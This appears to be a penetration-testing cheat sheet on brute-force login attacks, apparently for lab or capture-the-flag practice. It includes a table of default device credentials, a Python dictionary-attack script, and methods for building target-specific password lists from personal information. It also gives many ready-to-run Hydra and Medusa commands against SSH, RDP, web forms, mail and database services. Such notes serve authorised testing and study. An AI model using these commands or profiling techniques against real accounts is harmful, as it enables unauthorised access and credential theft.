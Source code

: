 ```yaml
---
layout: default
title: Brute Force Attacks
permalink: /Web/brute_force/
---
```


## Default Passwords
Some examples of default passwords:
{% raw %}
| Device/Manufacturer    | Default Username | Default Password | Device Type                     |
|------------------------|------------------|------------------|---------------------------------|
| Linksys Router         | admin            | admin            | Wireless Router                 |
| D-Link Router          | admin            | admin            | Wireless Router                 |
| Netgear Router         | admin            | password         | Wireless Router                 |
| TP-Link Router         | admin            | admin            | Wireless Router                 |
| Cisco Router           | cisco            | cisco            | Network Router                  |
| Asus Router            | admin            | admin            | Wireless Router                 |
| Belkin Router          | admin            | password         | Wireless Router                 |
| Zyxel Router           | admin            | 1234             | Wireless Router                 |
| Samsung SmartCam       | admin            | 4321             | IP Camera                       |
| Hikvision DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
| Axis IP Camera         | root             | pass             | IP Camera                       |
| Ubiquiti UniFi AP      | ubnt             | ubnt             | Wireless Access Point           |
| Canon Printer          | admin            | admin            | Network Printer                 |
| Honeywell Thermostat   | admin            | 1234             | Smart Thermostat                |
| Panasonic DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
{% endraw %}
[CIRT.net](https://www.cirt.net/passwords) is a database for default credentials. Further resources include [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub repository which contains a list of default passwords for a variety of different vendors.

## Utilizing Wordlists

- Publicly Available Lists: Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- Custom-Built Lists: We can craft our wordlists by leveraging information gleaned during reconnaissance.

### Dictionary Attack

Example python script for dictionary attack:
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
We can costumize wordlists based on the password policy:
```
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt
grep -E '[a-z]' darkweb2017-uppercase.txt > darkweb2017-lowercase.txt
grep -E '[0-9]' darkweb2017-lowercase.txt > darkweb2017-number.txt
```
These commands:
- Filter for passwords containing at least 8 characters.
- Enforces at least one uppercase letter.
- Enforces at least one lowercase letter.
- Enforces that passwords containing at least one numerical digit.

*Note: Many users reuse passwords across multiple online accounts, so breached passwords can be useful.*

### Custom Wordlists
#### Username Anarchy
```
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```
```
./username-anarchy Jane Smith > jane_smith_usernames.txt
```
#### CUPP
After we employed Username Anarchy to generate a list of potential usernames, we can use CUPP to complement this with a targeted password list.
```
sudo apt install cupp -y
```
We can one gather this valuable intelligence for a target:
- Social Media
- Company Websites
- Public Records
- News Articles and Blogs

Open interactive mode:
```
cupp -i
```
After we generated a list, we can use grep to filter that password list to match a certain policy:
```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```
## Hydra
It is a versatile tool that can brute-force a wide range of services, including web applications, remote login services like SSH and FTP, and even databases.
Hydra's basic syntax:
```
hydra [login_options] [password_options] [attack_options] [service_options]
```
Few examples:
- FTP: `hydra -l admin -P /path/to/password_list.txt ftp://$ip`, `hydra -L usernames.txt -P passwords.txt -s $port -V ftp.example.com ftp`
- SSH: `hydra -l root -P /path/to/password_list.txt ssh://$ip`, `hydra -l root -p toor -M targets.txt ssh`
- HTTP-GET (Basic HTTP Authentication): `hydra -L usernames.txt -P passwords.txt www.example.com http-get`, `hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt $ip http-get / -s $port`
- HTTP-POST: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`,`hydra -l admin -P /path/to/password_list.txt $ip http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`
- SMTP: `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`
- POP3: `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`
- IMAP: `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`
- MySQL: `hydra -l root -P /path/to/password_list.txt mysql://$ip`
- RDP: `hydra -l admin -P /path/to/password_list.txt rdp://$ip`, `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 $ip rdp`

### Constructing the params String (HTTP-POST)
This string encapsulates the data that will be sent to the server with each login attempt, mimicking a legitimate form submission.
- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

## Medusa
```
medusa [target_options] [credential_options] -M module [module_options]
```
Few examples:
- SSH: `medusa -h $ip -n $port -U usernames.txt -P passwords.txt -M ssh -t 3`, `medusa -h $ip -u user -P passwords.txt -M ssh`
- HTTP-GET (Basic HTTP Authentication): `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET`
- `medusa -h $ip -U usernames.txt -e ns -M service_name`: Perform checks for empty passwords (-e n) and passwords matching the username (-e s).
